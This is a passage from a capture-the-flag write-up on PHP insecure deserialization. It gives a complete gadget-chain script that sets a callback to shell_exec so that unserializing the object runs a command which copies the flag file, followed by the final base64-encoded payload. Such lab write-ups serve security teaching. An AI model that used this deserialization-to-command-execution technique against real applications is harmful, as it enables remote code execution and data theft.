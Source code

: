 ```php
$pizza->size = $spaghetti;

echo base64_encode(serialize($pizza));
```
Again using burpsuite we can modify the post request data and test our payload, which unfortunately doesn't work.
Well, not entirely.
The problem is that the unserialize is not able to find a corresponding class for ArrayHelpers, this happens because it is wrapped inside a **namespace**, "Helpers".

The final working script is the following:
```php
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
$pizza->size = $spaghetti;

$my_payload = serialize($pizza);
$my_payload = str_replace('12:"ArrayHelpers"', '21:"\Helpers\ArrayHelpers"', $my_payload);
echo base64_encode($my_payload);
```
And the base64 encoded payload is this: **Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNToiY2F0IC8qZmxhZyogPiAuL2luZGV4LnBocCI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6MTA6InNoZWxsX2V4ZWMiO31pOjM7Tjt9czo3OiJ0b3BwaW5nIjtOO31zOjc6Im5vb2RsZXMiO047czo3OiJwb3J0aW9uIjtOO319**

